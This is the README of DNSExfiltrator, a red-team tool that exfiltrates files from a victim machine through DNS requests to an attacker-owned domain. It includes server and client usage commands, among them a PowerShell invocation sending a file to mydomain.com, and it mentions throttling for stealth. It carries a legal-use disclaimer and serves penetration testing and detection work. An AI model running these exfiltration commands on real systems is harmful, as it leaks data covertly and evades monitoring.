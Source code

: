 DNSExfiltrator
============

Author: Arno0x0x - [@Arno0x0x](http://twitter.com/Arno0x0x)

DNSExfiltrator allows for transfering (*exfiltrate*) a file over a DNS request covert channel. This is basically a data leak testing tool allowing to exfiltrate data over a covert channel.

DNSDelivery has to sides:
  1. The **server side**, coming as a single python script (`dnsexfiltrator.py`), which acts as a custom DNS server, serving the payload data
  2. The **client side** (*victim's side*), which comes in two flavors:
  - `dnsExfiltrator.cs`: a C# script that can be compiled with `csc.exe` to provide a Windows managed executable
  - `Invoke-DNSExfiltrator.ps1`: a PowerShell script providing the exact same functionnalities by wrapping the dnsExiltrator assembly

In order for the whole thing to work **you need to own your domain name** and set the DNS record for that domain to point to the server that will run the `dnsexfiltrator.py` server side.

Features
----------------------

DNSExfiltrator uses the system's default DNS server, but you can define a specific one (*useful for debugging purposes or for running the server side locally for instance*).

DNSExfiltrator also supports some throttling of the requests in order to stay more stealthy when exfiltrating data.

<img src="https://dl.dropboxusercontent.com/s/fpg71h06xbwj33e/dnsexfiltrator_02.jpg?dl=0" width="600">

<img src="https://dl.dropboxusercontent.com/s/7c2aqlf4kax3mu9/dnsexfiltrator_01.jpg?dl=0" width="600">

Dependencies
----------------------

The only dependency is on the server side, as the `dnsexfiltrator.py` script relies on the external **dnslib** library. You can install it using pip:
```
pip install -r requirements.txt
```

Usage
----------------------

***SERVER SIDE***

Start the `dnsexfiltrator.py script passing it the domain name used:
```
root@kali:~# ./dnsexfiltrator.py -d mydomain.com
```

***CLIENT SIDE***

You can use **either** the compiled version **or** the PowerShell wrapper (*which is basically the same thing*). Either case, the parameters are the same.

1/ Using the C# compiled Windows executable (*which you can find in the `release` directory*):
```
dnsExfiltrator.exe <file> <domainName> [s=DNS_server] [t=throttleTime]
      file:         [MANDATORY] The file name to the file to be exfiltrated.
      domainName:   [MANDATORY] The domain name to use for DNS requests.
      DNS_Server:   [OPTIONNAL] The DNS server name or IP to use for DNS requests. Defaults to the system one.
      throttleTime: [OPTIONNAL] The time in milliseconds to wait between each DNS request.
```

2/ Using the PowerShell script, well, call it in any of your prefered way (*you probably know tons of ways of invoking a powershell script*) along with the script parameters. Most basic example:
```
c:\DNSExfiltrator> powershell
PS c:\DNSExfiltrator> Import-Module .\Invoke-DNSExfiltrator.ps1
PS c:\DNSExfiltrator> Invoke-DNSExfiltrator -i inputFile -d mydomain.com -s my.dns.server.com -t 500
[...]
```

DISCLAIMER
----------------
This tool is intended to be used in a legal and legitimate way only:
  - either on your own systems as a means of learning, of demonstrating what can be done and how, or testing your defense and detection mechanisms
  - on systems you've been officially and legitimately entitled to perform some security assessments (pentest, security audits)

Quoting Empire's authors:
*There is no way to build offensive tools useful to the legitimate infosec industry while simultaneously preventing malicious actors from abusing them.*